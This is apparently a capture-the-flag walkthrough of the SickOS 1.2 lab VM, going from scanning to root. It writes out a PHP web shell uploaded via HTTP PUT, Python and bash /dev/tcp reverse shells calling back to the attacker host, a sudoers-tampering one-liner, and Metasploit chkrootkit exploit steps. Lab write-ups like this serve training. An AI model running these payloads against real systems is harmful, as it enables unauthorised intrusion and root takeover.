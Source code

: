 # SickOS 1.2

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/Sawv9BK.png)
Victim is `192.168.227.134`
`nmap -sS -sV -p- -oN NampSickOsLv2.txt 192.168.227.134`
![](https://i.imgur.com/GB8p98k.png)
Here we got two port open: OpenSSH 5.9p1/22, lighttpd 1.4.28/80

Let's take a look the website on 80, there might contain ssh AC/PW.
![](https://i.imgur.com/jREPFjX.png)
Well, nice meme. Is there any metadata or message stego in the pic?

![](https://i.imgur.com/Pe3Y4Qg.png)
exiftool... Nope.

![](https://i.imgur.com/oeI9r8O.png)
binwalk... Nope.
strings either.
Maybe we need dive more deeper.

![](https://i.imgur.com/NkkWjTW.png)
`dirb http://192.168.227.134` then we got `/test` here.
![](https://i.imgur.com/2AQdZPl.png)
Seems a directories leaking.

Can we upload file to it?
`curl -v -X OPTIONS http://192.168.227.134/test/`
![](https://i.imgur.com/7ov6RPQ.png)

Now find a short reverse shell payload to upload:
`curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://192.168.227.134/test/shell.php`
![](https://i.imgur.com/xMmGNMi.png)
![](https://i.imgur.com/MiGumz1.png)
Success!
This payload may allow us to execute more complicated command through `GET` variable `cmd`.
Let's give it simple test with `id`.
```
http://192.168.227.134/test/shell.php?cmd=id
```
![](https://i.imgur.com/dZPtTz7.png)

Great. Let's try a little bit more complicated payload.

![](https://i.imgur.com/pOwsy2F.png)
`http://192.168.227.134/test/shell.php?cmd=uname -a`


```
http://192.168.227.134/test/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.227.132",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Okay, we try so hard, there's only 443 work, and else was blocked.

![](https://i.imgur.com/EqFboKM.png)
As usual, setup pty: `python -c 'import pty;pty.spawn("/bin/bash")'`
If you want a proper fitty terminal, open `nc` with bash.
After get shell and type python pty, `CTRL+Z` suspended the process.
Check terminal environment info with `echo $TERM`, `stty -a`.
Set the stty to type raw: `stty raw -echo`.
Bring the shell back with `fg`, and reset it.
![](https://i.imgur.com/9qfpBGu.png)
This might give you a greate teerminal to interact.

![](https://i.imgur.com/ohr3P0Q.png)
We search the `crontab` in `/etc`, found that there're `cron.daily`, `cron.weekly`, `cron.monthly` will be run as root.

Go deeper inside...
```
cd /etc/cron.daily
ls -alF
chkrootkit -V
```
![](https://i.imgur.com/K8TRQgI.png)

We got some version number here, `searchsploit` of this.
![](https://i.imgur.com/Y5EDDRx.png)

Here's local privilege escalation.
![](https://i.imgur.com/lknfFmq.png)

That mean let's set a reverse shell file name as `update` under `/tmp` them we will get `root` shell, like this:

```
# On Victim
printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.216.129/443 0>&1\n' >> /tmp/update
chmod 777 /tmp/update
```
```
# On Host
nc -nlvp 443
```

Or simply set a shell script to add yourself as super user / unlimit the protect of sudoers:
```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
![](https://i.imgur.com/0TGJd38.png)

![](https://i.imgur.com/KefsPJr.png)
However, this payload didn't work, so I turn out to use metasploit.

## Msfconsole

From PentestMonkey, get the php reverse shell, save it and upload to the `192.168.227.134/test/`
```
curl --upload-file php-reverse-shell.txt -v http://192.168.227.134/test/php-reverse-shell.php -O --http1.0
```
Then open up the MSF, create the session handler.
```
use exploit/multi/handler
set lport 443
set payload linux/x86/shell_reverse_tcp
set lhost 192.168.227.132
run
```
Start using exploit module on session.
```
se exploit/unix/local/chkrootkit
set SESSION 1
set LHOST 192.168.227.132
set LPORT 443
run
```
![](https://i.imgur.com/yzlIM4V.png)

Get root shell and cat the flag. 
![](https://i.imgur.com/9pjCAiC.png)
